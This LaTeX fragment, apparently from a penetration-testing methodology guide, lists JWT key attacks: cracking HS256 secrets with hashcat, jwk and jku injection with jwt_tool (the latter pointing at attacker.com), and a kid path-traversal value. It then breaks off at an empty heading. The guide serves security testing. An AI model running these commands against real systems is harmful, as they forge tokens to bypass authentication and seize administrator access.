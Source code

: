 \documentclass{article}
\begin{document}
\subsection{Phase 4: Key-Related Attacks}

\begin{methodologybox}
\begin{enumerate}
    \item \textbf{Brute-force weak secrets} (for HS256):
    \begin{verbatim}
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    \end{verbatim}
    
    \item \textbf{jwk injection:} Embed your own public key
    \begin{verbatim}
    jwt_tool <jwt> -X i -I -pc sub -pv administrator
    \end{verbatim}
    
    \item \textbf{jku injection:} Host your JWKS and reference it
    \begin{verbatim}
    jwt_tool <jwt> -X s -ju http://attacker.com/jwks.json
    \end{verbatim}
    
    \item \textbf{kid path traversal:} Point to predictable files
    \begin{verbatim}
    "kid": "../../../../../../../dev/null"
    \end{verbatim}
\end{enumerate}
\end{methodologybox}

\subsection{Phase 5: Algorithm Confusion Attack Workflow}
\end{document}
